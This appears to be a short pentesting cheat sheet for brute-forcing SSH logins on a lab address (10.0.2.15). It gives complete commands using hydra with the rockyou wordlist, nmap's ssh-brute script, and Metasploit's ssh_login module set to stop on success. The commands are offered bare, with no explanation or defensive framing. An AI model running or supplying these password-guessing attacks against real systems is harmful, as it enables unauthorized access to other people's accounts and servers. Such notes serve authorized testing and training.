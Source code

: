 # Brute force
#### hydra
````bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.15 ssh
````
#### nmap
````bash
echo "administrator" > users
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 10.0.2.15
````
#### Metasploit
````bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.2.15
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
````
